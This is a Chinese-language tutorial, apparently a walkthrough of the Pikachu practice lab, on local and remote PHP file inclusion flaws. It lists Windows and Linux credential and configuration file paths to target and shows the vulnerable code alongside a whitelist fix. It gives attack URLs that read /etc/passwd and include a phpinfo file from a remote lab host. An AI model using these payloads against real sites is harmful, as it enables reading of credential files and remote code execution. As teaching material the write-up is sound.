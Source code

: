 
# 概述
文件包含，是一个功能。在各种开发语言中都提供了内置的文件包含函数，其可以使开发人员在一个代码文件中直接包含（引入）另外一个代码文件。

比如 在PHP中，提供了：<br />include(),include_once()
require(),require_once()
这些文件包含函数，这些函数在代码设计中被经常使用到。

大多数情况下，文件包含函数中包含的代码文件是固定的，因此也不会出现安全问题但是，有些时候，文件包含的代码文件被写成了一个变量，且这个变量可以由前端用户传进来，这种情况下，如果没有做足够的安全考虑，则可能会引发文件包含漏洞。攻击者会指定一个“意想不到”的文件让包含函数去执行，从而造成恶意操作。根据不同的配置环境，文件包含漏洞分为如下两种情况：

1. **本地文件包含漏洞：**仅能够对服务器本地的文件进行包含，由于服务器上的文件并不是攻击者所能够控制的，因此该情况下，攻击着更多的会包含一些固定的系统配置文件，从而读取系统敏感信息。很多时候本地文件包含漏洞会结合一些特殊的文件上传漏洞，从而形成更大的威力。
2. **远程文件包含漏洞：**能够通过url地址对远程的文件进行包含，这意味着攻击者可以传入任意的代码，这种情况没啥好说的，准备挂彩。

因此，在web应用系统的功能设计上尽量不要让前端用户直接传变量给包含函数，如果非要这么做，也一定要做严格的白名单策略进行过滤。


## 文件包含函数
**文件包含函数**：require()、require_once()、include()、include_once()。

Include()和require()的区别只要是，include在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行；而require函数出现错误的时候，会直接报错并退出程序的执行。

而include_once()和require_once()这两个函数与前两个的不同之处在于这两个函数只包含一次，适用于在脚本执行期间同一个文件有可能被包括超过一次的情况下，想确保它只被包括一次以避免函数重定义，变量重新赋值等问题。

服务器包含文件时，不管后缀是否为php，都会尝试做php文件执行，如果文件内容为php则会正常执行并返回结果，如果不是，则会原封不动地打印文件内容。


## 常见的敏感信息路径
```
Windows：
C:\boot.ini                                --查看系统版本
C:\windows\system32\inetsrv\MetaBase.xml   --IIS配置文件
C:\windows\repair\sam                      --存储windows系统初次安装的密码
C:\ProgramFiles\mysql\my.ini               --mysql配置
C:\ProgramFiles\mysql\data\mysql\user.MYD  --mysql root密码
C:\windows\php.ini                         --php配置信息
```

```
Linux/unix系统：
/etc/passwd                                        --账户信息
/etc/shadow                                        --账户密码文件
/use/local/app/apache2/conf/httpd.conf             --apache2默认配置文件
/use/loca/app/apache2/conf/extra/httpd-vhost.conf  --虚拟网站配置
/use/loca/app/php5/lib/php.ini                     --php配置文件
/etc/httpd/conf/httpd.conf                         --apache2配置文件
/etc/my.conf                                       --mysql配置文件
```


# File Include(本地)

## 查看关键源码
```php
$html='';
if(isset($_GET['submit']) && $_GET['filename']!=null){
    $filename=$_GET['filename'];
    include "include/$filename";//变量传进来直接包含,没做任何的安全限制
//     //安全的写法,使用白名单，严格指定包含的文件名
//     if($filename=='file1.php' || $filename=='file2.php' || $filename=='file3.php' || $filename=='file4.php' || $filename=='file5.php'){
//         include "include/$filename";

//     }
}
```

通过代码我们可以看到将变量传进来直接包含,没做任何的安全限制。


## 函数说明
```
isset() 函数用于检测变量是否已设置并且非 NULL。如果指定变量存在且不为 NULL，则返回 TRUE，否则返回 FALSE

语法
bool isset ( mixed $var [, mixed $... ] )
$var：要检测的变量。
```

```
在 PHP 中，您可以在服务器执行 PHP 文件之前在该文件中插入一个文件的内容。
include 和 require 语句用于在执行流中插入写在其他文件中的有用的代码。
include 和 require 除了处理错误的方式不同之外，在其他方面都是相同的：
require 生成一个致命错误（E_COMPILE_ERROR），在错误发生后脚本会停止执行。
include 生成一个警告（E_WARNING），在错误发生后脚本会继续执行。
```


## 实战
我们在include目录中创建一个phpinfo.php的文件，内容为
```
<?php
phpinfo();
?>
```

尝试密码文件
```
http://www.web.com/pikachu/vul/fileinclude/fi_local.php?filename=/etc/passwd&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```

报错说明没有这个文件，但是爆出来了文件的所在路径<br />![image-20210709101640350.png](_img/assets/1655882027451-e9d268e8-7199-4a02-abff-f5565a5da3ce.png)

查看phpinfo文件
```
http://www.web.com/pikachu/vul/fileinclude/fi_local.php?filename=phpinfo.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```
![image-20210709102016034.png](_img/assets/1655882033072-29365a3c-a001-43a1-b7da-490c4d685891.png)


# File Include(远程)

## 查看关键源码
```php
//远程文件包含漏洞,需要php.ini的配置文件符合相关的配置$html='';if(isset($_GET['submit']) && $_GET['filename']!=null){    $filename=$_GET['filename'];    include "$filename";//变量传进来直接包含,没做任何的安全限制}
```

通过代码我们可以看到和前面的代码一模一样，也是将变量传进来直接包含,没做任何的安全限制。


## 实战
在这里我在IP：为192.168.10.4的机器上创建一个读取phpinfo的文件
```
cd var/www/html/vi phpinfp.phpcat phpinfp.php <?phpphpinfo();?>service apache2 start
```
![image-20210709104500554.png](_img/assets/1655882047780-b3fd4a15-d608-41f8-bb02-8ab4b2342014.png)

远程文件包含payload：
```
http://www.web.com/pikachu/vul/fileinclude/fi_remote.php?filename=http://192.168.10.4/phpinfo.php&submit=%E6%8F%90%E4%BA%A4%E6%9F%A5%E8%AF%A2
```
![image-20210709104709406.png](_img/assets/1655882052743-cf0e04ad-afe5-4d07-a47c-e2f93164a76d.png)

